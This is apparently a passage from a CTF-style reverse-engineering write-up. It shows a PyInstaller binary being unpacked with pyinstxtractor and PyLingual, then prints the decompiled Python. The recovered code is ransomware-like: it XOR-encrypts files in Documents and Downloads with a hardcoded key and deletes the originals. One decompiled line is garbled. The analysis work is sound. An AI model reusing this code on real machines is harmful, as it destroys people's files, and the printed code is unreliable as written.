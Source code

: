 Now, we use the tool to convert it to `.pyc` then another one to finish it off.

[https://github.com/extremecoders-re/pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)

```bash
└─$ file share.pyc
share.pyc: Byte-compiled Python module for CPython 3.11, timestamp-based, .py timestamp: Thu Jan  1 00:00:00 1970 UTC, .py size: 0 bytes
```

Now using `pylingual` , we finish the reversing of the binary, and it gives out the following python code.

[PyLingual](https://pylingual.io/)

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: share.py
# Bytecode version: 3.11a7e (3495)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import os
import time

def xor_encrypt(data: bytes, key: bytes) -> bytes:
    return bytes([data[i][key, i, len(key)] for i in range(len(data))])

def xor_encrypt_directory(directory_path: str, key: bytes):
    for root, dirs, files in os.walk(directory_path):
        for file in files:
            file_path = os.path.join(root, file)
            with open(file_path, 'rb') as f:
                data = f.read()
            encrypted_data = xor_encrypt(data, key)
            encrypted_file_path = file_path + '.exe'
            with open(encrypted_file_path, 'wb') as enc_file:
                enc_file.write(encrypted_data)
            os.remove(file_path)

def main():
    password = 'freddyym'
    key = password.encode()
    directories = ['./Documents', '../Downloads']
    for directory in directories:
        if os.path.exists(directory):
            xor_encrypt_directory(directory, key)
            print(f'Encryption completed for files in: {directory}0')
        else:
            print(f'Directory {directory} does not exist.')
    while True:
        time.sleep(60)
if __name__ == '__main__':
    main()
```
